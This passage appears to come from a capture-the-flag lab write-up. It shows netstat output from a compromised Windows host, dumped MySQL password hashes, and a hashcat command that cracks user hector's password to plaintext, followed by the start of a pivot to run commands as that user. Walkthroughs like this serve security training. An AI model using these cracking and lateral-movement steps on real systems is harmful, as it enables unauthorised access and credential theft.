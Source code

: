 I can see that the host is listening on 5985 (WinRM), even though the
firewall must be preventing me from seeing it from my box:



    PS C:\users> netstat -ano

    Active Connections

      Proto  Local Address          Foreign Address        State           PID
      TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       816
      TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1840
      TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       452
      TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       992
      TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1708
      TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       592
      TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       608
      TCP    0.0.0.0:52629          0.0.0.0:0              LISTENING       2256
      TCP    10.10.10.167:80        10.10.14.4:48742      ESTABLISHED     4
      TCP    10.10.10.167:53175     10.10.14.4:443        ESTABLISHED     2736
      ...[snip]...



This means if I can find a password for hector, I can try to run
commands as that user.

### Crack MySQL Password

I had earlier started running the MySQL passwords through `hashcat`. I
had a `hashes` file:



    root@kali# cat hashes 
    hector:0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
    manager:CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA                                 
    root:0A4A5CAD344718DC418035A1F4D292BA603134D8



Then I started `hashcat`, and pretty quickly it broke hectors:



    root@kali# hashcat -m 300 hashes --user /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector
    ...[snip]...



### Run Commands as hector

With that password, I'll try to run a command as hector. I'll start
`powershell`:
